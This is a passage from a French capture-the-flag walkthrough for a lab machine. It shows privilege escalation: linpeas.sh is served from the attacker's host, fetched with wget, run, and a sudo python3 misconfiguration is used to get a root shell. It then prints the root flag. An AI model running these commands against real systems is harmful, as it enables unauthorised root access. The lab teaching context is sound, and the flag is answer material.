

Pour cela on va faire un **python server** ! Pour faire simple avec la commande `python3 -m http.server` nous allons créer un serveur web à l'endroit ou la commande est executé. De cette manière puisqu'on a le controle sur la victime nous pouvons faire une requète vers notre propre serveur et demander la ressource **"linpeas.sh"**

Parfait ! On va donc sur la machine victime se placer dans le dossier /tmp `cd /tmp` et sur la machine hôte se mettre dans le dossier qui contient le fichier **linpeas.sh**.

Une fois fait sur la machine hôte nous pouvons utiliser :

```bash
python3 -m http.server
```



> On peut d'ailleur noté que par défaut le port utilisé est le port 8000

Ensuite sur la machine hôte il faut faire une requête sur ce dernier et cela donne :

```bash
wget http://10.11.0.1:8000/linpeas.sh
```

> Si vous avez toujours le problème de "connection refused" utiliser "host.docker.internal"



Parfait le fichier est bien sur la machine victime ! Il ne nous reste plus qu'a rendre le fichier exécutable et le tour est joué :

```bash
chmod +x linpeas.sh
```

Puis pour l'exécuter :

```bash
./linpeas.sh
```



LinPeas va un peu tout scanner et la ça deviens un peu compliqué à lire... il y a beaucoup d'information et beaucoup de faux positif mais vous apprendrez avec le temps et l'expérience à regarder ce qui est intéressant !

Dans notre cas une chose retiens mon attention ! Ceci :



Traduction : notre utilisateur **www-data** à des droits de superutilisateur sur le binaire python3. Ce qui veut dire qu'il peut exécuter du python en tant que **root** !

Si vous voulez retrouver manuellement ce que Linpeas à trouvé essayer la commande :

```bash
sudo -l
```

Cela liste (si il y en a) tout les binaires que vous pouvez lancé en tant que root !

Pour ce genre de faille il existe un site très connu [GTFOBins](https://gtfobins.github.io/).

Il permet de trouvé très simplement en fonction des permissions que vous trouvez sur les fichiers de privesc !

Par exemple nous savons que l'on à accées à **sudo** sur **python3** donc nous pouvons le mettre sur le site :



On peut voir qu'il trouve dans sa base de données qu'il y a un **privesc avec python et sudo** ! C'est parfait pour nous !

En cliquant sur le binaire et en descendant un peu on trouve notre bonheur :



Testons cette commmande sur la machine victime !

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```



Cela à fonctionné ! Nous sommes maintenant **root** sur la machine ! Nous avons atteint le plus haut niveau de privilège !

Il nous reste maintenant plus qu'une seule chose à faire. Récupérer le root flag qui se situe dans un endroit ou seul l'utilisateur **root** à accées "/root"

```bash
cd /root
```

et enfin :

```bash
cat root.txt
```

> empirelabs{python_s3rp3nt_du_d3sert}

**Bravo vous venez d'arriver à bout de votre première machine !**
